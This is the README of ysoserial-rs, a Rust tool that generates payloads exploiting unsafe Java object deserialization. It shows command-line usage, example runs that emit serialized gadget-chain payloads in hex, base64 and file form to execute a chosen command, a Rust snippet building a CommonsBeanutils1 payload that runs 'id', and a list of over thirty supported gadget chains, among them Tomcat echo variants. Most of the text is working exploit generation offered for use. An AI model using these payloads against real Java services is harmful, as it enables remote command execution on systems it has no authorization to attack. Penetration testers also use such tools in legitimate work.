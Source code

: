 # ysoserial-rs

- [ysoserial](https://github.com/frohoff/ysoserial)  implemented by rust

> A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

## using

```shell
Usage: ysoserial [-p <payload>] [-c <command>] [--url <url>] [--echo-name <echo-name>] [--command-name <command-name>] [-o <output>] [-f <format>] [-l]

ysoserial-rs

Options:
  -p, --payload     select a payload
  -c, --command     command to execute
  --url             url to request dns
  --echo-name       tomcat echo request header name
  --command-name    tomcat command request header name
  -o, --output      save payload to file
  -f, --format      format to hex or base64
  -l, --list        list all payload
  --help            display usage information

```

### format

- hex

```shell
➜  ysoserial-rs git:(main) ✗ ysoserial -p cc1 -c whomai -f hex
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e2e416e6e6f746174696f6e496e766f636174696f...
```

- base64

```shell
➜  ysoserial-rs git:(main) ✗ ysoserial -p cc1 -c whomai -f base64
rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYm...
```

### output

```shell
➜  ysoserial-rs git:(main) ✗ ysoserial -p cc1 -c whomai -o cc1.ser
写入文件:cc1.ser,payload大小:1395
➜  ysoserial-rs git:(main) ✗ cat cc1.ser|xxd -ps
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e
2e416e6e6f746174696f6e496e766f636174696f6e48616e646c657255ca
...
```

## examples

```shell
cargo run --example examples
```

- Please refer to the examples directory for details

```rust
use std::fs::File;
use std::io;
use std::io::Write;
use ysoserial_rs::get_commons_beanutils1;

fn main() -> Result<(), io::Error> {
    let mut file = File::create("commons_beanutils1.ser")?;
    file.write_all(&get_commons_beanutils1("id"))?;
    Ok(())
}
```

## support list

- [x] bs1
- [x] cc1
- [x] cc2
- [x] cc3
- [x] cc4
- [x] cc5
- [x] cc6
- [x] cc7
- [x] cck1
- [x] cck2
- [x] cck3
- [x] cck4
- [x] clojure
- [x] groovy1
- [x] hibernate1
- [x] hibernate2
- [x] javassist_weld1
- [x] jboss_interceptors1
- [x] jdk7u21
- [x] jdk8u20
- [x] json1
- [x] mozilla_rhino1
- [x] mozilla_rhino2
- [x] myfaces1
- [x] rome
- [x] spring1
- [x] spring2
- [x] cck1_tomcat_echo
- [x] cck2_tomcat_echo
- [x] url_dns
- [x] c3p0
- [x] vaadin1
- [x] shiro_spc
